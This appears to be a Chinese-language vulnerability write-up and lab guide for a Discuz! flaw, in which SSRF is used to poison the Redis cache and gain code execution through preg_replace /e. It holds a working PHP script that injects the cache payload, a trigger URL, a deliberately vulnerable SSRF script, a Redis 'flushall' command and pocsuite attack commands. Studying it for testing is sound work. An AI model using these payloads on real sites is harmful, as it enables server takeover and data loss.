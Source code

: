 # Discuz!利用SSRF+Redis缓存应用导致有条件代码执行
## 0x00漏洞简介
当dz设置使用缓存后，初始化时会把缓存内容加入全局变量$_G.而在调用缓存的地方source/fucntion/function_core.php中:
```
function output_replace($content) {
        ...
        if(...){
        ....
        $content = preg_replace($_G['setting']['output']['preg']['search'], $_G['setting']['output']['preg']['replace'],$content);
        }
        return $content;
}
```
其中，关键点的两个变量我们都可以通过redis修改:
```
$_G['setting']['output']['preg']['search']=”/.*/e”;
$_G['setting']['output']['preg']['replace']=”phpinfo();”;
```
dz使用redis时，全局变量$_G[‘setting’]放在xxxx_setting中的，其中前缀就是前面config_global.php中的prefix的值.也可以在redis-cli中通过如下命令查看：
```
keys *          #查看所有键
keys *_setting  #模糊查询的方式查找匹配的键
```
得到键名后通过以下方式修改本地缓存：
```
<?php
$a['output']['preg']['search']['plugins'] = "/.*/e";
$a['output']['preg']['replace']['plugins'] = "phpinfo();";
$a['rewritestatus']['plugins']=1;
$setting = serialize($a);
$redis = new Redis();
$redis->connect('127.0.0.1',6379);
$redis->set("kQbXlj_setting",$setting);
?>
```
复写缓存后访问如下地址就能发现成功getshell:
```
/discuz/forum.php?mod=ajax&inajax=yes&action=getthreadtype
```
getshell使我们破坏了网页缓存的数据，会导致网站访问异常，可在redis-cli中刷新重置数据:
```
flushall
```
## 0x01环境搭建
###获取镜像
环境搭建共使用三个镜像：MySQL、Redis和安装过phpredis的Discuz!  
其中MySQL和Redis的镜像可用以下命令从官方获取：
```
docker pull mysql
docker pull redis
```
鉴于国外源的镜像仓库速度缓慢且有时容易中断无响应，建议通过[DaoCloud](https://www.daocloud.io/)拉取镜像

[安装过phpredis的Discuz!下载地址](http://pan.baidu.com/s/1nvGm46d)

从discuz.tar.gz恢复出Discuz!镜像：

```
gzip -dc discuz.tar.gz | docker load
```
###运行镜像
Kali(Debian) + Docker(mysql + redis + discuz)
```
docker run --name dz-mysql -e MYSQL_ROOT_PASSWORD=root -d mysql

docker run --name dz-redis -d redis

docker run --name dz-ssrf --link dz-mysql:mysql -p 8888:80 -d dz-redis-init apache2 "-DFOREGROUND"
```
访问127.0.0.1:8888进行Discuz!的安装.

安装过后将config/config_global.php中redis的地址和端口改为redis容器的地址和端口（可用docker inspect dz-redis查看IP）.

在后台中 全局 -> 性能优化 -> 内存优化 中查看redis是否被启用，若已启用则搭建完成.

## 0x02漏洞验证
在/discuz根目录下放置了ssrf_gopher.php用于构造ssrf.内容如下:
```
<?php
$ch = curl_init();
$url = $_GET['ssrf'];
echo $url.'<br/>';

curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_HEADER, 0);

$output = curl_exec($ch);
curl_close($ch);
print_r($output);
?>
```
验证：
```
pocsuite -r discuz_redis_ssrf_exec.py -u "http://127.0.0.1:8888/discuz/ssrf_gopher.php?ssrf=" --verify
```
攻击：
```
pocsuite -r discuz_redis_ssrf_exec.py -u "http://127.0.0.1:8888/discuz/ssrf_gopher.php?ssrf=" --attack
```
## 0x03参考
* [pocsuite](http://pocsuite.org/)
* [PoC编写规范及要求说明](https://github.com/knownsec/Pocsuite/blob/master/docs/CODING.md)
* [imp0wd3r](https://github.com/imp0wd3r)
* [C1tas](https://github.com/C1tas)
* [漏洞检测的那些事儿](http://drops.wooyun.org/tips/16431)
